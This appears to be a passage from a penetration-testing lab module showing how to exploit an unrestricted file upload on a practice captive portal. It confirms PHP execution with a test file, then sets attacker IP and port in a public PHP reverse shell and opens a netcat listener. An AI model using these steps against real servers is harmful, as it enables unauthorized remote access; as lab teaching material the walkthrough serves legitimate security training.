 <p>We can inspect the application's upload functionality using Burp Suite or by interacting directly with it.</p>
<img class="website-screenshot" data-url="http://captive.htb.local/upload.php" src="/storage/modules/299/hostheader/0010.PNG"/>
<p>Before attempting to upload a malicious file, we need to identify the web framework used by the captive portal. This helps us choose the appropriate payload.</p>
<ul>
<li>If the portal runs PHP, we use a <a href="https://github.com/pentestmonkey/php-reverse-shell">PHP reverse shell</a>.</li>
<li>If it runs Node.js, we use a <a href="https://github.com/appsecco/vulnerable-apps/blob/master/node-reverse-shell/readme.md#the-nodejs-reverse-shell">Node.js reverse shell</a>.</li>
</ul>
<p>If the captive portal runs on a different web framework, we should research framework-specific exploits and reverse shell payloads.</p>
<p>For example:</p>
<ul>
<li>Python-based apps (Flask/Django) → Python reverse shell</li>
<li>ASP.NET apps → ASPX reverse shell</li>
<li>Java-based apps → JSP reverse shell</li>
</ul>
<p>Identifying the framework helps us craft targeted payloads or find command injection techniques specific to that environment. To determine the framework, we can use tools like the <a href="https://www.wappalyzer.com/apps/">Wappalyzer extension</a>, which detects the technologies used by the web application.</p>
<img class="website-screenshot" data-url="http://captive.htb.local" src="/storage/modules/299/hostheader/0013.PNG"/>
<p>Once identified, we can test whether the back-end server allows arbitrary file uploads by attempting to upload a web shell or reverse shell script. If successful, this can lead to full server exploitation.</p>
<p>To do so, we will write <code>&lt;?php echo "Hello HTB";?&gt;</code> to <code>test.php</code>, and try uploading it to the web application. Once the file is uploaded, we can verify if the upload was successful by visiting the file in a web browser. If we see the message <code>Hello HTB</code>, which we wrote in the PHP file, it confirms that the file was executed on the server.</p>
<img class="website-screenshot" data-url="http://captive.htb.local/uploads/test.php" src="/storage/modules/299/hostheader/0012.png"/>
<p>This indicates that arbitrary PHP code execution is possible, allowing us to proceed with executing a web shell or reverse shell for further exploitation. Next, we can upload a <a href="https://github.com/pentestmonkey/php-reverse-shell">PHP reverse shell</a>.</p>
<p>Before uploading, we need to modify the script by updating the IP and port values to match our attacking machine. Open the script in a text editor and make the following changes:</p>
<pre><code class="language-shell-session">[!bash!]$ nano shell.php
&lt;snip&gt;
$ip = '200.200.200.62';  // CHANGE THIS TO ATTACKER'S IP
$port = 4444;          // CHANGE THIS TO ATTACKER'S PORT
&lt;/snip&gt;
</code></pre>
<img class="website-screenshot" data-url="http://captive.htb.local/upload.php" src="/storage/modules/299/hostheader/0011.png"/>
<p>Once the reverse shell script is successfully uploaded, we trigger it by visiting the uploaded file in a browser. This action executes the script, establishing a connection back to our attacking machine.</p>
<p>At this point, if everything is set up correctly, we should receive a shell on our listener.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nlvp 4444 
